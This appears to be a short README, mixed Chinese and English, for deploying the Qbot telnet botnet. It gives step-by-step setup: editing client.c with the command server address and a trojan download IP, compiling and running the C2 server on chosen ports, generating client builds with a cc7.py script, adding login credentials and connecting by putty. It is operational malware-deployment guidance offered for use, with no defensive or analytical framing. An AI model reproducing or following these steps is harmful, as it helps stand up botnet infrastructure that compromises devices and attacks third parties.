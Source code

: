 # 待补充
## qbot
Qbot Botnet. Telnet botnet, most powerfull and strong botnet. requirements: 2 linux server.

yum install wget git gcc python2 python3 tar bzip2 


1. 修改client.c
commServer ip:port1
以及木马下载ip

2. 安装gcc screen python vim  tar tar bzip2

apt-get install gcc screen python2 python3 vim   tar bzip2 

3. 编译server
gcc -o server server.c -pthread


screen ./server port1 port2 port3
screen ./server 2323  7777 10000

port3 > port2

 
CTRL + A + D //退出screen


python2 cc7.py client.c ip

新建login.txt

username password


putty
ip port3 
